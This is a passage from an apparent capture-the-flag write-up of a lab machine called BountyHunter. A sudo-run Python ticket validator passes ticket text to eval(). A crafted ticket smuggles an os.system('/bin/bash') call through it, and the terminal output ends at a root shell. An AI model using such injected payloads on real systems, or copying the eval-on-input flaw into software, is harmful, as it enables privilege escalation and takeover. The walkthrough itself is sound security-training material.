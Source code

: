 ```python
            continue

        if code_line and i == code_line:
            if not x.startswith("**"):
                return False
            ticketCode = x.replace("**", "").split("+")[0]
            if int(ticketCode) % 7 == 4:
                validationNumber = eval(x.replace("**", ""))
                if validationNumber > 100:
                    return True
                else:
                    return False
    return False

def main():
    fileName = input("Please enter the path to the ticket file.\n")
    ticket = load_file(fileName)
    #DEBUG print(ticket)
    result = evaluate(ticket)
    if (result):
        print("Valid ticket.")
    else:
        print("Invalid ticket.")
    ticket.close

main()
```

```
development@bountyhunter:~$ cat /opt/skytrain_inc/invalid_tickets/390681613.md

# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

**Command Injection**

```
development@bountyhunter:~$ nano /tmp/privesc_ticket.md

# Skytrain Inc
## Ticket to Mars
__Ticket Code:__
**11 + 13 == 24 and __import__('os').system('/bin/bash') == True

development@bountyhunter:~$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py

Please enter the path to the ticket file.
/tmp/privesc_ticket.md
Destination: Mars
root@bountyhunter:/home/development#
```
